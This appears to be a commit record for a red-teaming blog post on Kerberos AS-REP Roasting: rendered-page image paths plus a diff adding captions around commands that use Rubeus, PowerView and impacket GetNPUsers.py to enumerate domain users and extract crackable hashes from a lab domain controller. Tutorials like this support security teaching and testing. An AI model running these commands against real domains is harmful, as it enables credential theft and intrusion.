

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-07-12- Kerberos-AS-REP-Roasting.md, in a window 1280 px wide and 1400 px high, scrolled down 6237 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
Update 2021-07-12- Kerberos-AS-REP-Roasting.md

````diff
--- a/_posts/Red-Teaming/2021-07-12- Kerberos-AS-REP-Roasting.md
+++ b/_posts/Red-Teaming/2021-07-12- Kerberos-AS-REP-Roasting.md
@@ -66,15 +66,18 @@ Rubeus.exe asreproast /format:john /outfile:hash.txt
 <img src="/img/asrep/save.PNG" alt="Getting-gz" width="1000" height="200">
 
 ## ASREP Roasting with  GetUserSPNs.py
-
+Get Domain User
 ```
 Import-Module .\powerview.ps1
 Get-DomainUser | select name
 ```
 <img src="/img/asrep/users.PNG" alt="Getting-gz" width="1000" height="200">
 
+saved users in the text file
+
 <img src="/img/asrep/users1.PNG" alt="Getting-gz" width="1000" height="200">
 
+If a user does  exist with preauthentication disabled, you will get the hash
 ```
 python3 GetNPUsers.py karim.net/ -usersfile  users.txt -dc-ip 192.168.128.140
 ```
````
